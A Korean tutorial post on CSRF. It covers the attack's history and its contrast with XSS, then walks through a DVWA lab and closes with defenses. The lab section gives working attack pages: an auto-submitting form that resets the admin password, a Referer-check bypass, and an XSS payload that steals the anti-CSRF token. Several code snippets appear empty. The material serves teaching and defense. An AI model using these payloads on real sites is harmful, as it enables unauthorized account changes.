

## 1. CSRF 개요

**CSRF(Cross-Site Request Forgery, 사이트 간 요청 위조)** 는 인증된 사용자의 권한을 이용하여 공격자가 원하는 요청을 사용자 모르게 실행시키는 공격입니다.

브라우저는 동일 사이트에 대한 요청 시 쿠키를 자동으로 첨부합니다. CSRF는 바로 이 동작을 악용합니다. 공격자는 피해자가 이미 로그인된 사이트에 대한 악의적 요청을 피해자 브라우저를 통해 몰래 전송합니다.

**대표 시나리오**: 피해자가 은행 사이트에 로그인된 상태에서 공격자의 사이트를 방문하면, 공격자 사이트의 HTML이 자동으로 이체 요청을 피해자 브라우저에서 전송합니다. 서버는 유효한 세션 쿠키가 포함된 요청이므로 정상 요청으로 처리합니다.

---

## OWASP Top 10 매핑

| 항목 | 내용 |
|---|---|
| OWASP 카테고리 | **A01:2025 – Broken Access Control** |
| CWE | CWE-352 (Cross-Site Request Forgery) |
| 영향 | 피해자 권한으로 비밀번호 변경·송금·설정 변경 등 **상태 변경 작업** 무단 실행 |
| 한 줄 핵심 | 서버가 요청의 **출처(누가 보냈는지)를 검증하지 않아**, 브라우저의 쿠키 자동 전송이 악용됨 |

> CSRF는 2013/2017 Top 10에서는 단독 항목이었으나, 프레임워크 기본 방어가 보편화되며  
> 2021부터 **A01 Broken Access Control(접근 통제 실패)에 통합**되었고 **2025판에서도 A01**입니다.  
> "인증된 사용자라도, 그 요청이 정말 본인 의도인지"를 검증하지 못한 접근 통제 결함으로 봅니다.
{: .prompt-info }

---

## 공격의 역사와 주요 사건

### 유래와 발견

CSRF의 뿌리는 1988년 Norm Hardy가 정리한 **"혼동된 대리인(Confused Deputy)"** 개념입니다. "권한을 가진 주체(대리인)가, 권한 없는 자의 지시를 자기 권한으로 대신 수행해 버리는" 문제인데, 브라우저가 바로 그 혼동된 대리인입니다.

웹 맥락의 용어 **"Cross-Site Request Forgery"** 는 **2001년 6월 Peter Watkins가 Bugtraq 메일링 리스트**에 올린 글에서 굳어졌습니다. 초기에는 "세션 라이딩(Session Riding)"이라고도 불렸습니다. 한동안 과소평가되다가, **2008년 프린스턴대 연구진(William Zeller·Edward Felten)이 실제 서비스에서의 위험성을 논문으로 입증**하면서 OWASP Top 10 단독 항목으로 올라갔습니다.

### 주요 침해 사건

| 연도 | 사건 | 내용 |
|---|---|---|
| 2006 | **Netflix**[^c03_csrf] | CSRF로 피해자 계정의 배송지 변경·대여 목록에 영화 추가가 가능했던 사례 |
| 2007 | **Gmail 필터 CSRF** | 로그인된 사용자가 악성 페이지를 열면, 몰래 **메일 전달(forwarding) 필터**가 추가되어 메일이 공격자에게 새어 나감 |
| 2008 | **ING Direct (프린스턴 논문)**[^c03_princeton] | CSRF로 **계좌 간 송금**까지 시연 — 금융 서비스에서의 치명성을 증명. YouTube·NYTimes 등도 함께 지적 |

> Gmail·ING 사례의 핵심은 **"공격자가 응답을 볼 필요조차 없다"** 는 점입니다. CSRF는 데이터를 훔치는(읽는) 공격이 아니라 **상태를 바꾸는(쓰는) 공격**입니다 — 송금·비밀번호 변경·설정 변경처럼.
{: .prompt-warning }

### 왜 이 공격이 통하는가 — 근본 원리

브라우저에는 한 가지 자동 동작이 있습니다: **특정 사이트로 요청을 보낼 때, 그 사이트의 쿠키를 자동으로 첨부**한다는 것입니다. 이는 "매 요청마다 다시 로그인하지 않아도 되게" 하는 편의 기능이지만, **요청이 어디서 시작됐든(=어느 페이지가 요청을 유발했든) 무차별로 적용**됩니다.

공격자 페이지의 ``·자동 제출 폼이 은행 사이트로 요청을 쏘면, 브라우저는 "이 요청이 공격자 페이지에서 나왔다"는 사실과 무관하게 **은행 쿠키를 붙여서** 보냅니다. 서버는 유효한 세션 쿠키가 있으니 **정상 요청으로 처리**합니다. 서버는 "이 요청이 정말 사용자가 우리 화면에서 누른 것인지", 즉 **요청의 출처와 의도를 검증하지 않은 것**입니다.

```html
<!-- 공격자 페이지에 이 한 줄만 있으면 -->

<!-- 피해자 브라우저가 bank.com 쿠키를 자동 첨부 → 서버는 정상 송금으로 처리 -->
```

그래서 방어는 **"이 요청이 우리 폼에서 정말 시작됐는지"를 증명하는 비밀**을 요구하는 것입니다. **CSRF 토큰**(공격자가 알 수 없는 1회성 난수)을 폼에 심고 서버가 대조하거나, **SameSite 쿠키**로 외부 출처 요청에는 아예 쿠키를 안 붙이게 합니다. 단, 같은 사이트에 **XSS가 있으면 토큰을 읽어 우회**되므로 XSS 방어(02번)와 반드시 함께 가야 합니다.

---

## 2. XSS와의 차이점

| 구분 | XSS | CSRF |
|------|-----|------|
| 공격 목표 | 피해자 브라우저에서 **악성 스크립트 실행** | 피해자의 **인증 상태를 이용**한 요청 위조 |
| 공격 방향 | 사이트 → 피해자 브라우저 | 외부 사이트 → 피해자 브라우저 → 대상 서버 |
| 핵심 악용 요소 | 입력값 미검증, 출력 미인코딩 | 브라우저의 쿠키 자동 전송 |
| 방어 핵심 | 출력 인코딩, CSP | CSRF 토큰, SameSite 쿠키 |

---

## 3. CSRF 공격 흐름



---

## 4. CSRF가 성립하는 조건

1. 피해자가 대상 사이트에 **로그인되어 있음** (유효한 세션 존재)
2. 브라우저가 요청 시 **쿠키를 자동으로 전송**
3. 서버가 **요청 출처(Origin)를 검증하지 않음**
4. 공격자가 **요청 형식을 예측 가능**함 (예측 불가 토큰 없음)

---

## 5. 공격 벡터

### 5.1 GET 요청 CSRF

GET 파라미터로 상태를 변경하는 서버가 있으면 img 태그 하나로 공격이 가능합니다.

```html
<!-- 피해자가 이 페이지를 열면 자동으로 송금 요청 전송 -->

```

### 5.2 POST 요청 CSRF

자동 submit되는 숨김 form을 이용합니다.

```html
<form id="csrf-form" action="http://target.com/action" method="POST">
  <input type="hidden" name="param1" value="value1">
  <input type="hidden" name="param2" value="value2">
</form>
<script>document.getElementById('csrf-form').submit();</script>
```

### 5.3 JSON CSRF (Content-Type 우회)

일부 서버는 `Content-Type: application/json` 만 처리하므로 직접 form으로 전송이 불가능합니다. 하지만 `text/plain` 으로 전송하거나 플래시 등의 우회 기법이 사용됩니다.

---

## 6. DVWA 실습

**환경**: Kali Linux(192.168.56.10) → DVWA on Ubuntu(192.168.56.30/DVWA/)

### 6.0 레벨별 공격·방어 한눈에

| 레벨 | 서버 측 방어 | 공격(우회) 방안 | 그 레벨의 방어 한계 |
|---|---|---|---|
| **Low** | 없음 (토큰·출처 검증 모두 없음) | `` 한 줄로 자동 변경 | 위조 요청을 전혀 구분 못 함 |
| **Medium** | `Referer` 헤더에 서버 호스트명 포함 여부만 검사 | 공격 페이지 경로/파일명에 대상 호스트명 삽입 → `Referer` 통과 | 단순 문자열 포함 검사라 우회 쉬움 |
| **High** | 요청마다 랜덤 **Anti-CSRF 토큰(user_token)** 검증 | 토큰을 모르면 불가 → **동일 출처 XSS와 연계**해 토큰 탈취 후 전송 | 토큰 자체는 강하나 XSS 있으면 무력화 |
| **Impossible** | 토큰 + **현재 비밀번호 재확인(`password_current`)** | CSRF만으로는 현재 비밀번호를 알 수 없어 불가 | — (근본 방어) |

> 핵심: Referer 검증(Medium)은 우회 가능하고, 토큰(High)은 XSS에 취약합니다.  
> Impossible은 **토큰 + 민감 작업 시 재인증**을 결합해 방어합니다. CSRF 방어는 항상 **XSS 방어와 함께** 가야 합니다.
{: .prompt-tip }

### 6.1 Security Level: Low

#### 정상 요청 구조 파악

DVWA > CSRF 페이지에서 비밀번호 변경 기능에 접근합니다. Burp Suite로 정상 요청을 캡처하면 다음과 같은 구조임을 확인할 수 있습니다.

```
GET /DVWA/vulnerabilities/csrf/?password_new=test&password_conf=test&Change=Change HTTP/1.1
Host: 192.168.56.30
Cookie: PHPSESSID=<세션ID>; security=low
```

서버가 `Referer` 헤더나 CSRF 토큰을 검증하지 않는다는 점을 확인합니다.

#### CSRF 공격 페이지 제작

Kali(`192.168.56.10`)의 웹 루트에 공격 페이지를 작성합니다.

```html
<!-- /var/www/html/csrf_attack.html -->
<!DOCTYPE html>
<html>
<head><title>무료 경품 당첨!</title></head>
<body>
  <h1>축하합니다! 경품에 당첨되셨습니다!</h1>
  <!-- 피해자가 페이지를 열면 img 로드 시 비밀번호 변경 요청이 자동 전송됨 -->
  
  <p>잠시만 기다려주세요...</p>
</body>
</html>
```

#### Kali에서 공격 페이지 서비스

```bash
# 방법 1: Apache 활성화
sudo service apache2 start

# 방법 2: Python 임시 서버
python3 -m http.server 8888
```

#### 공격 실행

1. DVWA에 `admin` 계정으로 로그인합니다 (세션 쿠키 생성).
2. 같은 브라우저에서 `http://192.168.56.10:8888/csrf_attack.html` 에 접속합니다.
3. 페이지 로드 시 `` 태그가 자동으로 비밀번호 변경 요청을 DVWA 서버로 전송합니다.
4. DVWA 서버는 유효한 `PHPSESSID` 쿠키가 포함되어 있으므로 정상 요청으로 처리합니다.
5. `admin` 계정 비밀번호가 `hacked` 로 변경됩니다.

> **확인 방법**: DVWA 로그아웃 후 `admin` / `hacked` 로 로그인 시도

#### POST 방식 CSRF

GET 파라미터를 막은 경우에도 숨김 form + 자동 submit 스크립트로 우회할 수 있습니다.

```html
<!DOCTYPE html>
<html>
<head><title>이벤트 페이지</title></head>
<body onload="document.getElementById('csrf-form').submit();">
  <form id="csrf-form"
        action="http://192.168.56.30/DVWA/vulnerabilities/csrf/"
        method="POST">
    <input type="hidden" name="password_new"  value="pwned">
    <input type="hidden" name="password_conf" value="pwned">
    <input type="hidden" name="Change"        value="Change">
  </form>
  <p>이벤트 페이지 로딩 중...</p>
</body>
</html>
```

#### Burp Suite CSRF PoC Generator 사용

Burp Suite Pro에서는 캡처된 요청으로부터 CSRF PoC를 자동 생성할 수 있습니다.

1. Burp Suite에서 비밀번호 변경 요청을 캡처합니다.
2. 요청 패널 우클릭 → **Engagement tools** → **Generate CSRF PoC**
3. 생성된 HTML을 복사하여 공격 페이지로 사용합니다.

---

### 6.2 Security Level: Medium — Referer 헤더 검증 우회

Medium 레벨에서는 서버가 `Referer` 헤더를 검증합니다. 소스 코드를 보면 `$_SERVER['HTTP_REFERER']` 에 서버 호스트명이 포함되어 있는지 확인합니다.

```php
// Medium 레벨의 검증 로직 (예시)
if (stripos($_SERVER['HTTP_REFERER'], $_SERVER['SERVER_NAME']) === false) {
    // 거부
}
```

**우회 방법**: 공격 페이지 경로에 대상 서버 호스트명을 포함시킵니다.

```
http://192.168.56.10/192.168.56.30/csrf_attack.html
```

`Referer` 헤더가 `http://192.168.56.10/192.168.56.30/csrf_attack.html` 이 되어 `192.168.56.30` 이 포함되므로 검증을 통과합니다.

> **핵심 취약점**: 단순 문자열 포함 여부만 검사하므로 경로에 서버명을 삽입하여 우회 가능

---

### 6.3 Security Level: High — CSRF Token 분석

High 레벨에서는 서버가 랜덤 CSRF 토큰을 생성하여 폼에 숨김 필드로 삽입합니다. 요청 시 서버 세션의 토큰과 비교합니다.

```php
// High 레벨의 토큰 검증 (예시)
if ($_GET['user_token'] !== $_SESSION['session_token']) {
    // 거부
}
```

**토큰 구조**: 요청마다 다른 랜덤 토큰이 생성되므로, 공격자가 토큰 값을 사전에 알 수 없습니다.

**CSRF + XSS 조합 공격**: CSRF 토큰이 있어도 동일 사이트에 XSS 취약점이 있다면, XSS를 통해 토큰을 읽어 CSRF 공격에 활용할 수 있습니다.

```javascript
// XSS 페이로드로 CSRF 토큰 추출 후 요청 전송
fetch('/DVWA/vulnerabilities/csrf/')
  .then(res => res.text())
  .then(html => {
    const token = html.match(/user_token['"]\s+value=['"]([^'"]+)/)[1];
    return fetch('/DVWA/vulnerabilities/csrf/?password_new=xss_hacked&password_conf=xss_hacked&Change=Change&user_token=' + token);
  });
```

> High의 한계: 토큰이 같은 페이지(같은 출처)에 노출되므로, **XSS 한 곳만 있어도** 토큰을 읽어 우회됩니다.  
> 따라서 CSRF 방어는 XSS 방어(02장)와 반드시 병행해야 합니다.
{: .prompt-warning }

---

### 6.4 Security Level: Impossible (방어 성공)

Impossible 레벨은 Anti-CSRF 토큰에 더해 **현재 비밀번호 재확인**을 요구합니다.

```php
// Impossible: 토큰 검증 + 현재 비밀번호 일치 확인
checkToken($_REQUEST['user_token'], $_SESSION['session_token'], 'index.php');
// $_GET['password_current'] 가 DB의 현재 비밀번호와 일치할 때만 변경 수행
```

CSRF 공격자는 피해자의 **현재 비밀번호를 알 수 없으므로**, 토큰을 어찌어찌 얻더라도 요청이 거부됩니다.  
민감한 상태 변경(비밀번호 변경, 송금 등)에 **재인증을 결합**하는 것이 가장 견고한 패턴입니다.

---

## 7. 방어 방법

### 7.1 CSRF Token (Synchronizer Token Pattern)

가장 널리 사용되는 방어 방법입니다. 서버가 각 세션(또는 요청)마다 예측 불가한 랜덤 토큰을 생성하고, 모든 상태 변경 요청에 이 토큰을 포함시켜 검증합니다.

```php
<?php
// 세션 시작 및 CSRF 토큰 생성
session_start();

if (empty($_SESSION['csrf_token'])) {
    $_SESSION['csrf_token'] = bin2hex(random_bytes(32));
}

// POST 요청 처리 시 토큰 검증
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    if (!isset($_POST['csrf_token']) ||
        !hash_equals($_SESSION['csrf_token'], $_POST['csrf_token'])) {
        http_response_code(403);
        die('CSRF token validation failed.');
    }
    // 정상 처리
    $password_new = $_POST['password_new'];
    // ...
}
?>

<!-- HTML 폼에 토큰 삽입 -->
<form method="POST" action="/change_password">
  <input type="hidden" name="csrf_token" value="<?= htmlspecialchars($_SESSION['csrf_token']) ?>">
  <input type="password" name="password_new" placeholder="새 비밀번호">
  <button type="submit">변경</button>
</form>
```

### 7.2 SameSite 쿠키 속성

쿠키에 `SameSite` 속성을 설정하면 크로스 사이트 요청 시 쿠키가 전송되지 않습니다.

| 속성값 | 동작 | 설명 |
|--------|------|------|
| `Strict` | 크로스 사이트 요청 시 쿠키 미전송 | 가장 강력, 외부 링크 클릭 시도 쿠키 미포함 |
| `Lax` | GET 탐색(링크 클릭)은 허용, POST 등은 차단 | 대부분의 CSRF 방어, 사용성 균형 |
| `None` | 항상 전송 (Secure 속성 필수) | CSRF 방어 없음 |

```php
// PHP에서 SameSite 쿠키 설정
setcookie('PHPSESSID', session_id(), [
    'expires'  => 0,
    'path'     => '/',
    'secure'   => true,
    'httponly' => true,
    'samesite' => 'Strict',  // 또는 'Lax'
]);
```

```
# Apache 응답 헤더로 일괄 설정
Header edit Set-Cookie ^(.*)$ "$1; SameSite=Strict; Secure"
```

### 7.3 Referer / Origin 헤더 검증

요청의 출처를 `Referer` 또는 `Origin` 헤더로 검증합니다. `Origin` 헤더가 더 신뢰성이 높습니다.

```php
<?php
function verify_origin(): bool {
    $allowed = ['https://yourdomain.com', 'https://www.yourdomain.com'];

    // Origin 헤더 우선 검증
    if (isset($_SERVER['HTTP_ORIGIN'])) {
        return in_array($_SERVER['HTTP_ORIGIN'], $allowed, true);
    }

    // Referer 헤더로 보조 검증
    if (isset($_SERVER['HTTP_REFERER'])) {
        $referer_host = parse_url($_SERVER['HTTP_REFERER'], PHP_URL_HOST);
        return in_array('https://' . $referer_host, $allowed, true);
    }

    return false; // 헤더 없으면 거부
}

if ($_SERVER['REQUEST_METHOD'] === 'POST' && !verify_origin()) {
    http_response_code(403);
    die('Invalid origin.');
}
```

> **주의**: Referer 헤더는 브라우저 설정이나 프라이버시 도구에 의해 생략될 수 있습니다. 단독으로 사용하지 말고 CSRF 토큰과 병행합니다.

### 7.4 Double Submit Cookie 패턴

서버 세션 없이도 CSRF 방어가 가능한 Stateless 방식입니다.

1. 서버가 랜덤 값을 쿠키로 설정합니다.
2. 클라이언트는 요청 시 같은 값을 폼 파라미터 또는 헤더로도 함께 전송합니다.
3. 서버는 쿠키 값과 파라미터 값이 일치하는지 확인합니다.

공격자는 Same-Origin Policy로 인해 피해자의 쿠키를 읽을 수 없으므로, 일치하는 값을 폼에 포함시킬 수 없습니다.

```javascript
// 클라이언트 측: 쿠키에서 토큰 읽어 헤더에 포함
const csrfToken = document.cookie.match(/csrf_token=([^;]+)/)?.[1];

fetch('/api/change_password', {
    method: 'POST',
    headers: {
        'Content-Type': 'application/json',
        'X-CSRF-Token': csrfToken,  // 헤더로 전송
    },
    body: JSON.stringify({ password: 'new_password' }),
});
```

### 7.5 CAPTCHA

민감한 작업(비밀번호 변경, 송금, 탈퇴 등)에 CAPTCHA를 추가하면 자동화된 CSRF 공격을 차단할 수 있습니다. 다만 UX 저하가 발생하므로 중요도에 따라 선택적으로 적용합니다.

---

## 8. 방어 기법 비교

| 방어 기법 | 구현 난이도 | 방어 강도 | 비고 |
|-----------|------------|-----------|------|
| CSRF Token | 중간 | 높음 | 가장 표준적인 방법 |
| SameSite=Strict | 낮음 | 높음 | 최신 브라우저 지원 필요 |
| SameSite=Lax | 낮음 | 중간 | 대부분의 CSRF 차단 |
| Origin/Referer 검증 | 낮음 | 중간 | 단독 사용 시 우회 가능성 |
| Double Submit Cookie | 중간 | 중간 | Stateless 환경에 적합 |
| CAPTCHA | 낮음 | 중간 | UX 저하 |

---

## 9. 핵심 정리

- CSRF는 **피해자의 인증 상태(세션 쿠키)** 를 악용하여 피해자 모르게 요청을 전송하는 공격입니다.
- 성립 조건: 피해자 로그인 상태 + 브라우저 쿠키 자동 전송 + 서버의 출처 미검증
- DVWA Low 레벨에서는 CSRF 토큰과 출처 검증이 없어 `` 한 줄로 공격이 가능합니다.
- **가장 강력한 방어 조합**: CSRF 토큰 + `SameSite=Strict` 쿠키
- XSS 취약점이 함께 존재하면 CSRF 토큰도 우회될 수 있으므로 XSS 방어도 병행해야 합니다.

---

## 10. 정보보안기사 시험 포인트

| 구분 | 꼭 외울 것 |
|---|---|
| **정의** | 피해자의 인증 상태(쿠키)를 이용해 **피해자 의도와 무관하게** 공격자가 의도한 행위(수정·삭제·등록·송금)를 시킴 |
| **XSS와 관계** | 기본적으로 **XSS와 유사**, 공격 코드도 **자바스크립트 형태**로 삽입 가능. 단 XSS=코드 실행, CSRF=요청 위조 |
| **방어 구성** | 입력 폼은 **GET보다 POST** + **토큰** + 중요 기능은 **세션 검증 + 재인증** |
| **원인** | 둘 다 **입력값 검증 미흡**에서 발생 |

> **★ 자주 나오는 함정**  
> - "CSRF는 **불특정 다수**를 대상으로 한다"는 보기는 **틀립니다.** CSRF는 **로그인된 특정 사용자**를 노립니다.  
> - "CSRF는 피해자의 **민감 정보를 보호하지 않아** 발생한다"는 설명도 핵심이 아닙니다 — CSRF는 정보 유출이 아니라 **요청(상태 변경) 위조**가 본질입니다.  
> 상세 이론은 **11번 포스트 7.6장** 참고.
{: .prompt-tip }

---

## 출처 및 참고 자료

본문의 사건·연혁은 아래 출처에 근거합니다(각주 번호를 클릭하면 이동).

**더 읽어보기**

- "Confused Deputy" — Norm Hardy(1988); "CSRF" 용어 — Peter Watkins(Bugtraq, 2001)
- OWASP CSRF Prevention Cheat Sheet — <https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html>

[^c03_csrf]: CSRF 개요·역사(Netflix·Gmail 등 사례 포함). Wikipedia: Cross-site request forgery. <https://en.wikipedia.org/wiki/Cross-site_request_forgery>
[^c03_princeton]: W. Zeller, E. W. Felten, "Cross-Site Request Forgeries: Exploitation and Prevention"(Princeton, 2008) — ING Direct 송금 등 시연. <https://www.cs.princeton.edu/~wzeller/papers/csrf/csrf.pdf>
